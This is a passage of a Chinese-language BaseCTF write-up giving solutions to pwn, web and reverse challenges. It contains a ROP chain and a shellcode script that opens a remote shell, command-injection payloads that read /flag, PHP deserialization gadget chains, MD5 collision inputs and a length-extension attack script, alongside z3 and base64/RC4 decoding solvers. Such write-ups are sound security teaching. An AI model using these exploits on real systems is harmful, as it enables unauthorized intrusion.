p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000401ce4) # syscall

r.send(p)
r.interactive()
```

### <font style="background-color:rgb(243, 244, 244);">shellcode1</font>
<font style="color:rgb(51, 51, 51);">加个</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">syscall</font>`<font style="color:rgb(51, 51, 51);">再次执行read把shellcode读进去就行。</font>

```python
from pwn import *
p = remote('challenge.basectf.fun', 40833)
context.arch = 'amd64'
p.send(asm('syscall'))
pause()
p.send(b'aa' + asm(shellcraft.sh()))
p.interactive()
```

<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);"></font>


## <font style="color:#DF2A3F;">W</font><font style="color:#585A5A;">eb</font>
### 你听不到我的声音
```php
 <?php
highlight_file(__FILE__);
shell_exec($_POST['cmd']); 
```

一眼无回显 RCE，这里使用重定向符把命令执行的结果输出到文件，再查看文件。

:::color4
cmd=ls / > 1.txt

:::

发现 /flag ，再 cat 获取内容。

:::color4
cmd=cat /flag > 1.txt

:::


### 数学大师
每一道题目需要在 5 秒内解出, 传入到 `$_POST['answer']` 中, 解出 50 道即可, 除法取整 。

考察使用 Python 的 requests 库写脚本，注意在请求时要开启 session cookie。

```python
import requests
import re

# 假设这是你接收到的算式和答案的URL
url = 'http://challenge.basectf.fun:33051/'
s = requests.Session()
payload = {'answer': 1}
response = s.post(url)
print(response.text)
# 模拟50次POST请求
for i in range(50):
    
    response_text = response.text
    print(response.text)
    start_index = response_text.find('second ') + 7  # 7是"second "的长度
    end_index = response_text.find('?')
    expression = response_text[start_index:end_index]
    partten = r'÷'
    expression = re.sub(partten, '//', expression)
    partten = r'×'
    expression = re.sub(partten, '*', expression)
    # 计算结果
    print(expression)
    answer = eval(expression)
    print(answer)
    # 发送POST请求
    payload = {'answer': answer}
    response = s.post(url, data=payload,cookies=response.cookies)
    
print(response.text)
```

跑完获得 flag。


### RCEisamazingwithspace
RCE，过滤了空格，可以用 $IFS 代替。

:::color4
cmd=cat$IFS/flag

:::


### 一起吃豆豆
JS 小游戏，发现 F12 看不了源码，那就从浏览器里面找到开发者工具。

在 index.js 中发现游戏结束事件，并且有一串 Base64 编码后的字符串。

直接解码，得到 flag。


### ez_ser
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);

class re{
    public $chu0;
    public function __toString(){
        if(!isset($this->chu0)){
            return "I can not believes!";
        }
        $this->chu0->$nononono;
    }
}

class web {
    public $kw;
    public $dt;

    public function __wakeup() {
        echo "lalalla".$this->kw;
    }

    public function __destruct() {
        echo "ALL Done!";
    }
}

class pwn {
    public $dusk;
    public $over;

    public function __get($name) {
        if($this->dusk != "gods"){
            echo "什么，你竟敢不认可?";
        }
        $this->over->getflag();
    }
}

class Misc {
    public $nothing;
    public $flag;

    public function getflag() {
        eval("system('cat /flag');");
    }
}

class Crypto {
    public function __wakeup() {
        echo "happy happy happy!";
    }

    public function getflag() {
        echo "you are over!";
    }
}
$ser = $_GET['ser'];
unserialize($ser);
?>

```

简单反序列化，web 类为入口，echo 触发 re 类的 __toString()，通过 $this->chu0->$nononono 触发 pwn 类的 __get()，再通过 $this->over->getflag() 执行 Misc 类的 getflag() 函数，从而得到 flag。

```php
<?php
class re{
    public $chu0;
}
class web {
    public $kw;
    public $dt;
}
class pwn {
    public $dusk='gods';
    public $over;
}
class Misc {
    public $nothing;
    public $flag;

    public function getflag() {
        eval("system('cat /flag');");
    }
}
class Crypto {
    public function __wakeup() {
        echo "happy happy happy!";
    }

    public function getflag() {
        echo "you are over!";
    }
}
$p = new web();
$p->kw = new re();
$p->kw->chu0 = new pwn();
$p->kw->chu0->over = new Misc();
echo serialize($p);
?> 
```

:::color4
?ser=O:3:"web":2:{s:2:"kw";O:2:"re":1:{s:4:"chu0";O:3:"pwn":2:{s:4:"dusk";s:4:"gods";s:4:"over";O:4:"Misc":2:{s:7:"nothing";N;s:4:"flag";N;}}}s:2:"dt";N;}

:::

### Really EZ POP
```php
 <?php
highlight_file(__FILE__);

class Sink
{
    private $cmd = 'echo 123;';
    public function __toString()
    {
        eval($this->cmd);
    }
}

class Shark
{
    private $word = 'Hello, World!';
    public function __invoke()
    {
        echo 'Shark says:' . $this->word;
    }
}

class Sea
{
    public $animal;
    public function __get($name)
    {
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();
    }
}

class Nature
{
    public $sea;

    public function __destruct()
    {
        echo $this->sea->see;
    }
}

if ($_POST['nature']) {
    $nature = unserialize($_POST['nature']);
} 
```

依旧是反序列化，这次类名都直接做了提示，按照顺序构造即可。

Nature: __destruct() ---> Sea: __get() ---> Shark: __invoke() ---> Sink: __toString() ---> RCE

注意有的成员是 private，在外部不能直接改。可以考虑在内部直接赋值，或者在内部写一个赋值函数，在外部通过此函数赋值。

注意序列化出的字符串要进行 URL 编码。

```php
<?php
class Sink
{
    private $cmd = "system('cat /flag');";
}
class Shark
{
    private $word = 'Hello, World!';
    public function SetWord($x)
    {
        $this->word = $x;
    }
}
class Sea
{
    public $animal;
}
class Nature
{
    public $sea;
}
$p= new Nature();
$t1 = new Sea();
$t2 = new Shark();
$t3 = new Sink();
$t2->SetWord($t3);
$t1->animal = $t2;
$p->sea = $t1;
echo urlencode(serialize($p));
```

:::color4
nature=O%3A6%3A%22Nature%22%3A1%3A%7Bs%3A3%3A%22sea%22%3BO%3A3%3A%22Sea%22%3A1%3A%7Bs%3A6%3A%22animal%22%3BO%3A5%3A%22Shark%22%3A1%3A%7Bs%3A11%3A%22%00Shark%00word%22%3BO%3A4%3A%22Sink%22%3A1%3A%7Bs%3A9%3A%22%00Sink%00cmd%22%3Bs%3A20%3A%22system%28%27cat+%2Fflag%27%29%3B%22%3B%7D%7D%7D%7D

:::

### 所以你说你懂 MD5?
非常好的题目，算是把有关 md5 的一些知识综合考察了一遍。

```php
<?php
session_start();
highlight_file(__FILE__);
// 所以你说你懂 MD5 了?

$apple = $_POST['apple'];
$banana = $_POST['banana'];
if (!($apple !== $banana && md5($apple) === md5($banana))) {
    die('加强难度就不会了?');
}

// 什么? 你绕过去了?
// 加大剂量!
// 我要让他成为 string
$apple = (string)$_POST['appple'];
$banana = (string)$_POST['bananana'];
if (!((string)$apple !== (string)$banana && md5((string)$apple) == md5((string)$banana))) {
    die('难吗?不难!');
}

// 你还是绕过去了?
// 哦哦哦, 我少了一个等于号
$apple = (string)$_POST['apppple'];
$banana = (string)$_POST['banananana'];
if (!((string)$apple !== (string)$banana && md5((string)$apple) === md5((string)$banana))) {
    die('嘻嘻, 不会了? 没看直播回放?');
}

// 你以为这就结束了
if (!isset($_SESSION['random'])) {
    $_SESSION['random'] = bin2hex(random_bytes(16)) . bin2hex(random_bytes(16)) . bin2hex(random_bytes(16));
}

// 你想看到 random 的值吗?
// 你不是很懂 MD5 吗? 那我就告诉你他的 MD5 吧
$random = $_SESSION['random'];
echo md5($random);
echo '<br />';

$name = $_POST['name'] ?? 'user';

// check if name ends with 'admin'
if (substr($name, -5) !== 'admin') {
    die('不是管理员也来凑热闹?');
}

$md5 = $_POST['md5'];
if (md5($random . $name) !== $md5) {
    die('伪造? NO NO NO!');
}

// 认输了, 看样子你真的很懂 MD5
// 那 flag 就给你吧
echo "看样子你真的很懂 MD5";
echo file_get_contents('/flag');
```

一共有 4 层，依次来绕过。

第一层可以直接数组绕过。

第二层和第三层都可以直接构造 md5 碰撞绕过。

第四层涉及到 md5 长度扩展攻击，即已知一个字符串的 md5 值和长度，并且要往他后面拼接一个可控的字符串，我们可以通过控制后面的字符串从而计算得到拼接后字符串的 md5 值。

在这道题中，random 的长度已知（本地跑一下是96），random 的 md5 值已知，并且拼接的字符串可控（需要以 admin 结尾），这里通过下面这个脚本构造。

```python
from struct import pack, unpack
from math import floor, sin


"""
MD5 Extension Attack
====================

@refs
https://github.com/shellfeel/hash-ext-attack
"""


class MD5:

    def __init__(self):
        self.A, self.B, self.C, self.D = \
            (0x67452301, 0xefcdab89, 0x98badcfe, 0x10325476)  # initial values
        self.r: list[int] = \
            [7, 12, 17, 22] * 4 + [5,  9, 14, 20] * 4 + \
            [4, 11, 16, 23] * 4 + [6, 10, 15, 21] * 4  # shift values
        self.k: list[int] = \
            [floor(abs(sin(i + 1)) * pow(2, 32))
             for i in range(64)]  # constants

    def _lrot(self, x: int, n: int) -> int:
        # left rotate
        return (x << n) | (x >> 32 - n)

    def update(self, chunk: bytes) -> None:
        # update the hash for a chunk of data (64 bytes)
        w = list(unpack('<'+'I'*16, chunk))
        a, b, c, d = self.A, self.B, self.C, self.D

        for i in range(64):
            if i < 16:
                f = (b & c) | ((~b) & d)
                flag = i
            elif i < 32:
                f = (b & d) | (c & (~d))
                flag = (5 * i + 1) % 16
            elif i < 48:
                f = (b ^ c ^ d)
                flag = (3 * i + 5) % 16
            else:
                f = c ^ (b | (~d))
                flag = (7 * i) % 16

            tmp = b + \
                self._lrot((a + f + self.k[i] + w[flag])
                           & 0xffffffff, self.r[i])
            a, b, c, d = d, tmp & 0xffffffff, b, c

        self.A = (self.A + a) & 0xffffffff
        self.B = (self.B + b) & 0xffffffff
        self.C = (self.C + c) & 0xffffffff
        self.D = (self.D + d) & 0xffffffff

    def extend(self, msg: bytes) -> None:
        # extend the hash with a new message (padded)
        assert len(msg) % 64 == 0
        for i in range(0, len(msg), 64):
            self.update(msg[i:i + 64])

    def padding(self, msg: bytes) -> bytes:
        # pad the message
        length = pack('<Q', len(msg) * 8)

        msg += b'\x80'
        msg += b'\x00' * ((56 - len(msg)) % 64)
        msg += length

        return msg

    def digest(self) -> bytes:
        # return the hash
        return pack('<IIII', self.A, self.B, self.C, self.D)


def verify_md5(test_string: bytes) -> None:
    # (DEBUG function) verify the MD5 implementation
    from hashlib import md5 as md5_hashlib

    def md5_manual(msg: bytes) -> bytes:
        md5 = MD5()
        md5.extend(md5.padding(msg))
        return md5.digest()

    manual_result = md5_manual(test_string).hex()
    hashlib_result = md5_hashlib(test_string).hexdigest()

    assert manual_result == hashlib_result, "Test failed!"


def attack(message_len: int, known_hash: str,
           append_str: bytes) -> tuple:
    # MD5 extension attack
    md5 = MD5()

    previous_text = md5.padding(b"*" * message_len)
    current_text = previous_text + append_str

    md5.A, md5.B, md5.C, md5.D = unpack("<IIII", bytes.fromhex(known_hash))
    md5.extend(md5.padding(current_text)[len(previous_text):])

    return current_text[message_len:], md5.digest().hex()


if __name__ == '__main__':

    message_len = int(input("[>] Input known text length: "))
    known_hash = input("[>] Input known hash: ").strip()
    append_text = input("[>] Input append text: ").strip().encode()

    print("[*] Attacking...")

    extend_str, final_hash = attack(message_len, known_hash, append_text)

    from urllib.parse import quote
    from base64 import b64encode

    print("[+] Extend text:", extend_str)
    print("[+] Extend text (URL encoded):", quote(extend_str))
    print("[+] Extend text (Base64):", b64encode(extend_str).decode())
    print("[+] Final hash:", final_hash)
```


注意脚本跑出来的字符串中要把 \x 换成 %。

:::color4
apple[]=1&banana[]=2&appple=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&bananana=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2&apppple=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&banananana=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2&name=%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%03%00%00%00%00%00%00admin&md5=327be723282f3805d4865f0c91debc23

:::

## <font style="color:#DF2A3F;">R</font><font style="color:#585A5A;">everse</font>
### UPX
DIE 查，64 位，发现 UPX 壳，但是 upx -d 脱不了，丢入 010 看一眼，发现 UPX 加壳后的文件格式被修改了，这里直接把小写的 upx 改成大写的即可。


拖入 IDA，里面就是一个很简单的换表 base64，python 跑一下即可。

```python
import base64
import string
enc = "$rg7_dhd~Alidg+zeyhz`vnz_d,7sy0="
string1 = 'A,.1fgvw#`/2ehux$~"3dity%_;4cjsz^+{5bkrA&=}6alqB*-[70mpC()]89noX'
string2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
print (base64.b64decode(enc.translate(str.maketrans(string1,string2))))
#BaseCTF{UPX_1s_$o_e@sy}
```

### lk
给了 20 个问题，flag 就是每题的选项拼起来，当然不是挨个做出来。

我们可以发现答完这些题目后程序会进行 20 多次的计算对比，我们可以借助 z3 求解器解决。

注意其中有一个约束条件包含位运算，z3 无法识别，需要我们手动转换。

```python
import z3
import string
s = z3.Solver()
arr = [0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]
for i in range(21):
    arr[i] = z3.Int('arr['+str(i)+']')
s.add(948 * arr[20]
     + 887 * arr[19]
     + 410 * arr[18]
     + 978 * arr[17]
     + 417 * arr[16]
     + 908 * arr[15]
     + 965 * arr[14]
     + 987 * arr[13]
     + 141 * arr[12]
     + 257 * arr[11]
     + 323 * arr[10]
     + 931 * arr[9]
     + 773 * arr[8]
     + 851 * arr[7]
     + 758 * arr[6]
     + 891 * arr[5]
     + 575 * arr[4]
     + 616 * arr[3]
     + 860 * arr[2]
     + 283 * arr[1] == 913686)
s.add(938 * arr[20]
     + 490 * arr[19]
     + 920 * arr[18]
     + 50 * arr[17]
     + 568 * arr[16]
     + 68 * arr[15]
     + 35 * arr[14]
     + 708 * arr[13]
     + 938 * arr[12]
     + 718 * arr[11]
     + 589 * arr[10]
     + 954 * arr[9]
     + 974 * arr[8]
     + 62 * arr[7]
     + 580 * arr[6]
     + 80 * arr[5]
     + 111 * arr[4]
     + 151 * arr[3]
     + 421 * arr[2]
     + 148 * arr[1] == 630335)
s.add(908 * arr[20]
     + 590 * arr[19]
     + 668 * arr[18]
     + 222 * arr[17]
     + 489 * arr[16]
     + 335 * arr[15]
     + 778 * arr[14]
     + 622 * arr[13]
     + 95 * arr[12]
     + 920 * arr[11]
     + 932 * arr[10]
     + 892 * arr[9]
     + 409 * arr[8]
     + 392 * arr[7]
     + 11 * arr[6]
     + 113 * arr[5]
     + 948 * arr[4]
     + 674 * arr[3]
     + 506 * arr[2]
     + 182 * arr[1] == 707525)
s.add(479 * arr[20]
     + 859 * arr[19]
     + 410 * arr[18]
     + 399 * arr[17]
     + 891 * arr[16]
     + 266 * arr[15]
     + 773 * arr[14]
     + 624 * arr[13]
     + 34 * arr[12]
     + 479 * arr[11]
     + 465 * arr[10]
     + 728 * arr[9]
     + 447 * arr[8]
     + 427 * arr[7]
     + 890 * arr[6]
     + 570 * arr[5]
     + 716 * arr[4]
     + 180 * arr[3]
     + 571 * arr[2]
     + 707 * arr[1] == 724203)
s.add(556 * arr[20]
     + 798 * arr[19]
     + 380 * arr[18]
     + 716 * arr[17]
     + 71 * arr[16]
     + 901 * arr[15]
     + 949 * arr[14]
     + 304 * arr[13]
     + 142 * arr[12]
     + 679 * arr[11]
     + 459 * arr[10]
     + 814 * arr[9]
     + 282 * arr[8]
     + 49 * arr[7]
     + 873 * arr[6]
     + 169 * arr[5]
     + 437 * arr[4]
     + 199 * arr[3]
     + 771 * arr[2]
     + 807 * arr[1] == 688899)
s.add(465 * arr[20]
     + 898 * arr[19]
     + 979 * arr[18]
     + 198 * arr[17]
     + 156 * arr[16]
     + 831 * arr[15]
     + 856 * arr[14]
     + 322 * arr[13]
     + 25 * arr[12]
     + 35 * arr[11]
     + 369 * arr[10]
     + 917 * arr[9]
     + 522 * arr[8]
     + 654 * arr[7]
     + 235 * arr[6]
     + 385 * arr[5]
     + 469 * arr[4]
     + 231 * arr[3]
     + 496 * arr[2]
     + 83 * arr[1] == 604784)
s.add(305 * arr[20]
     + 928 * arr[19]
     + 260 * arr[18]
     + 793 * arr[17]
     + 787 * arr[16]
     + 708 * arr[15]
     + 758 * arr[14]
     + 236 * arr[13]
     + 688 * arr[12]
     + 747 * arr[11]
     + 711 * arr[10]
     + 195 * arr[9]
     + 50 * arr[8]
     + 648 * arr[7]
     + 787 * arr[6]
     + 376 * arr[5]
     + 220 * arr[4]
     + 33 * arr[3]
     + 194 * arr[2]
     + 585 * arr[1] == 665485)
s.add(767 * arr[20]
     + 573 * arr[19]
     + 22 * arr[18]
     + 909 * arr[17]
     + 598 * arr[16]
     + 588 * arr[15]
     + 136 * arr[14]
     + 848 * arr[12]
     + 964 * arr[11]
     + 311 * arr[10]
     + 701 * arr[9]
     + 653 * arr[8]
     + 541 * arr[7]
     + 443 * arr[6]
     + 7 * arr[5]
     + 976 * arr[4]
     + 803 * arr[3]
     + 273 * arr[2]
     + 859 * arr[1] == 727664)
s.add(776 * arr[20]
     + 59 * arr[19]
     + 507 * arr[18]
     + 164 * arr[17]
     + 397 * arr[16]
     + 744 * arr[15]
     + 377 * arr[14]
     + 768 * arr[13]
     + 456 * arr[12]
     + 799 * arr[11]
     + 9 * arr[10]
     + 215 * arr[9]
     + 365 * arr[8]
     + 181 * arr[7]
     + 634 * arr[6]
     + 818 * arr[5]
     + 81 * arr[4]
     + 236 * arr[3]
     + 883 * arr[2]
     + 95 * arr[1] == 572015)
s.add(873 * arr[20]
     + 234 * arr[19]
     + 381 * arr[18]
     + 423 * arr[17]
     + 960 * arr[16]
     + 689 * arr[15]
     + 617 * arr[14]
     + 240 * arr[13]
     + 933 * arr[12]
     + 300 * arr[11]
     + 998 * arr[10]
     + 773 * arr[9]
     + 484 * arr[8]
     + 905 * arr[7]
     + 806 * arr[6]
     + 792 * arr[5]
     + 606 * arr[4]
     + 942 * arr[3]
     + 422 * arr[2]
     + 789 * arr[1] == 875498)
s.add(766 * arr[20]
     + 7 * arr[19]
     + 283 * arr[18]
     + 900 * arr[17]
     + 211 * arr[16]
     + 305 * arr[15]
     + 343 * arr[14]
     + 696 * arr[13]
     + 590 * arr[12]
     + 736 * arr[11]
     + 817 * arr[10]
     + 603 * arr[9]
     + 414 * arr[8]
     + 828 * arr[7]
     + 114 * arr[6]
     + 845 * arr[5]
     + 175 * arr[4]
     + 212 * arr[3]
     + 898 * arr[2]
     + 988 * arr[1] == 714759)
s.add(220 * arr[20]
     + 30 * arr[19]
     + 788 * arr[18]
     + 106 * arr[17]
     + 574 * arr[16]
     + 501 * arr[15]
     + 366 * arr[14]
     + 952 * arr[13]
     + 121 * arr[12]
     + 996 * arr[11]
     + 735 * arr[10]
     + 689 * arr[9]
     + 998 * arr[8]
     + 689 * arr[7]
     + 729 * arr[6]
     + 886 * arr[5]
     + 860 * arr[4]
     + 70 * arr[3]
     + 466 * arr[2]
     + 961 * arr[1] == 778853)
s.add(313 * arr[20]
     + 748 * arr[19]
     + 522 * arr[18]
     + 864 * arr[17]
     + 156 * arr[16]
     + 362 * arr[15]
     + 283 * arr[14]
     + 49 * arr[13]
     + 316 * arr[12]
     + 79 * arr[11]
     + 136 * arr[10]
     + 299 * arr[9]
     + 271 * arr[8]
     + 604 * arr[7]
     + 907 * arr[6]
     + 540 * arr[5]
     + 141 * arr[4]
     + 620 * arr[3]
     + 701 * arr[2]
     + 866 * arr[1] == 584591)
s.add(922 * arr[20]
     + 399 * arr[19]
     + 425 * arr[18]
     + 26 * arr[17]
     + 159 * arr[16]
     + 224 * arr[15]
     + 438 * arr[14]
     + 770 * arr[13]
     + 144 * arr[12]
     + 406 * arr[11]
     + 110 * arr[10]
     + 991 * arr[9]
     + 749 * arr[8]
     + 701 * arr[7]
     + 646 * arr[6]
     + 147 * arr[5]
     + 979 * arr[4]
     + 674 * arr[3]
     + 999 * arr[2]
     + 913 * arr[1] == 717586)
s.add(13 * arr[20]
     + 537 * arr[19]
     + 225 * arr[18]
     + 421 * arr[17]
     + 153 * arr[16]
     + 484 * arr[15]
     + 654 * arr[14]
     + 743 * arr[13]
     + 779 * arr[12]
     + 74 * arr[11]
     + 325 * arr[10]
     + 439 * arr[9]
     + 797 * arr[8]
     + 41 * arr[7]
     + 784 * arr[6]
     + 269 * arr[5]
     + 454 * arr[4]
     + 725 * arr[2]
     + 164 * arr[1] == 537823)
s.add(591 * arr[20]
     + 210 * arr[19]
     + 874 * arr[18]
     + 204 * arr[17]
     + 485 * arr[16]
     + 42 * arr[15]
     + 433 * arr[14]
     + 176 * arr[13]
     + 436 * arr[12]
     + 634 * arr[11]
     + 82 * arr[10]
     + 978 * arr[9]
     + 818 * arr[8]
     + 683 * arr[7]
     + 404 * arr[6]
     + 562 * arr[5]
     + 41 * arr[4]
     + 789 * arr[3]
     + 200 * arr[2]
     + 220 * arr[1] == 587367)
s.add(584 * arr[20]
     + 597 * arr[19]
     + 928 * arr[18]
     + 532 * arr[17]
     + 902 * arr[16]
     + 858 * arr[15]
     + 820 * arr[14]
     + 240 * arr[13]
     + 124 * arr[12]
     + 899 * arr[11]
     + 848 * arr[10]
     + 822 * arr[9]
     + 409 * arr[8]
     + 491 * arr[7]
     + 587 * arr[6]
     + 715 * arr[5]
     + 410 * arr[4]
     + 268 * arr[3]
     + 721 * arr[2]
     + 915 * arr[1] == 842245)
s.add(421 * arr[20]+ 302 * arr[19] + 327 * arr[18] + 180 * arr[17] + 512 * arr[16] + 160 * arr[15] + 623 * arr[14] + 28 * arr[13] + 411 * arr[12] + 53 * arr[11] + 633 * arr[10] + 560 * arr[9] + 623 * arr[8] + 477 * arr[7] + 901 * arr[6] + 287 * arr[5] + 149 * arr[4] + 726 * arr[3] + 934 * arr[2] + 875 * arr[1] == 610801)
s.add(838 * arr[20]
     + 434 * arr[19]
     + 792 * arr[18]
     + 649 * arr[17]
     + 462 * arr[16]
     + 170 * arr[15]
     + 980 * arr[14]
     + 15 * arr[13]
     + 295 * arr[12]
     + 495 * arr[11]
     + 666 * arr[10]
     + 934 * arr[9]
     + 17 * arr[8]
     + 69 * arr[7]
     + 367 * arr[6]
     + 780 * arr[5]
     + 291 * arr[4]
     + 834 * arr[3]
     + 587 * arr[2]
     + 133 * arr[1] == 653127)
s.add(41 * arr[20]
     + 422 * arr[19]
     + 420 * arr[18]
     + 224 * arr[17]
     + 475 * arr[16]
     + 854 * arr[15]
     + 233 * arr[14]
     + 179 * arr[13]
     + 620 * arr[12]
     + 69 * arr[11]
     + 42 * arr[10]
     + 684 * arr[9]
     + 300 * arr[8]
     + 745 * arr[7]
     + 894 * arr[6]
     + 554 * arr[5]
     + 495 * arr[4]
     + 66 * arr[3]
     + 316 * arr[2]
     + 391 * arr[1] == 533470)
s.check()
print(s.model())
```

```python
arr = [0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0]
arr[3] = 66
arr[9] = 65
arr[11] = 66
arr[16] = 66
arr[18] = 67
arr[15] = 67
arr[19] = 65
arr[14] = 67
arr[17] = 67
arr[7] = 65
arr[13] = 66
arr[20] = 67
arr[4] = 66
arr[2] = 68
arr[1] = 67
arr[5] = 68
arr[6] = 67
arr[12] = 68
arr[10] = 66
arr[8] = 65
flag = ''
for i in range(1,21):
    flag+=chr(arr[i])
print('BaseCTF{'+flag+'}')
```

### 最简单的编码
DIE 查，无壳，64 位，丢 IDA。

首先是 Base64 换表，把原表的每 4 个字符的前两个和后两个位置颠倒。

同时，在进行换表解密前，还要对密文进行一些处理，因为加密的时候 flag 会被进行替换，倒着写就行。

```python
import base64
str1 = "TqK1YUSaQryEMHaLMnWhYU+Fe0WPenqhRXahfkV6WE2fa3iRW197Za62eEaD"
string1 = 'CDABGHEFKLIJOPMNSTQRWXUVabYZefcdijghmnklqropuvstyzwx23016745+/89'
string2 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
flag = ""
tot = 1
for i in str1:
    flag += string1[string1.index(i)-tot]
    tot+=1
    if(tot==5):
        tot=1
print (base64.b64decode(flag.translate(str.maketrans(string1,string2))))
#b'BaseCTF{B45E64_eNCoDIn9_I5_rE4LLY_7OO_5implE}'
```

### RivestCipher
DIE 查，无壳，64 位，丢 IDA。

进入 main_main 函数，可以发现东西。


有一个 RC4，看起来 BaseCTF 可能是 key。

密文在哪呢？可以在下面找到一串 16 进制，可能就是密文。


直接用 CyberChef 解，发现直接就解出来了 flag。


### Ezpy
python 程序的逆向，这题对 python 版本的要求很严格，在线工具可以解决这一问题。

[https://pyinstxtractor-web.netlify.app/](https://pyinstxtractor-web.netlify.app/)

[https://www.lddgo.net/string/pyc-compile-decompile](https://www.lddgo.net/string/pyc-compile-decompile)

```python
# Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
# Version : Python 3.9

import Key
import sys

def init_Sbox(seed):
    k_b = (lambda .0 = None: [ ord(seed[i % len(seed)]) for i in .0 ])(range(256))
    s = list(range(256))
    j = 0
    for i in range(256):
        j = (j + s[i] + k_b[i]) % 256
        s[i] = s[j]
        s[j] = s[i]
    return s


def KeyStream(text, Sbox):
    s = Sbox.copy()
    (i, j) = (0, 0)
    k = [
        0] * len(text)
    for r in range(len(text)):
        i = (i + 1) % 256
        j = (j + s[i]) % 256
        s[i] = s[j]
        s[j] = s[i]
        t = (s[i] + s[j]) % 256
        k[r] = s[t] ^ Key.keykey[r % len(Key.keykey)]
    return k


def Encrypt(text, seed):
    Sbox = init_Sbox(seed)
    key = KeyStream(text, Sbox)
    enc = (lambda .0 = None: [ text[i] ^ key[i] for i in .0 ])(range(len(text)))
    return bytes(enc)

